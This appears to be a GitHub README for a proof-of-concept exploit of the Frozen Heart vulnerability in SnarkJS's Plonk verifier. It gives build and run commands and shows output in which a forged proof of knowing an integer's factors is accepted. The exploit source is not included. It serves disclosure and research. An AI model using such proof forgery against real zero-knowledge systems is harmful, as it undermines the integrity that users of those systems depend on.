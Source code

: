 # frozen-heart-poc

A Proof-of-Concept for [the Frozen Heart Vulnerability in Plonk](https://blog.trailofbits.com/2022/04/18/the-frozen-heart-vulnerability-in-plonk/) on [SnarkJS](https://github.com/iden3/snarkjs) implementation (v0.4.15). In this PoC, we will forge a Plonk proof to convince the verifier that we know two factors of a random integer even though we don't really know it.

The [Frozen Heart Vulnerability](https://blog.trailofbits.com/2022/04/13/part-1-coordinated-disclosure-of-vulnerabilities-affecting-girault-bulletproofs-and-plonk/) by [Trail of Bits](https://twitter.com/trailofbits) is a bug class where insecure implementations of the [Fiat-Shamir transformation](https://en.wikipedia.org/wiki/Fiat%E2%80%93Shamir_heuristic) would allow a malicious prover to forge a proof in such a way that the verifier will accept it. While the public inputs will be randomly produced and we can't fix the desired public inputs with its coressponding forge proofs, it could be a fairly serious issue in some circumstances. The vulnerability could arise in various proof systems (Girault, Bulletproofs, Plonk, etc.), in this PoC, we domostrate a PoC of the vulnerability in Plonk proof.

### Build
Make sure you have [Circom](https://docs.circom.io/), [NodeJS](https://nodejs.org/) and [NPM](https://www.npmjs.com/) installed (any version of these softwares should work), then run the following command to build the PoC.

```
git clone https://github.com/chrsow/frozen-heart-poc
cd frozen-heart-poc
./build.sh
```

### Run the PoC
```
npm run exploit
```

```sh
# > frozen-heart@1.0.0 exploit
# > npx tsc && node src/exploit.js

# #### Goal: prove that we know the factors of n without reavealing its factors (n === p * q) to the verifier
# #### Submit a valid proof with the knowledge of private inputs (factors of "n")
# ## Private Inputs (factors p, q): p = 14131697022969285607, q = 14781699601595105827
# ## p * q === 208890500254287832136014517513752931989
# [+] You really know the factor of 208890500254287832136014517513752931989!
# ################ HERE WE GO ################
# #### Submit a forge proof without the knowledge of private inputs (factors of a random "n")
# [+] You really know the factor of 10590450084067612247393057396231008614287484040058187609770642683754037255182!
# #### We have successfully convinced the verifier that we konw the factors of 10590450084067612247393057396231008614287484040058187609770642683754037255182
# #### Even though we have no idea what are its factors
```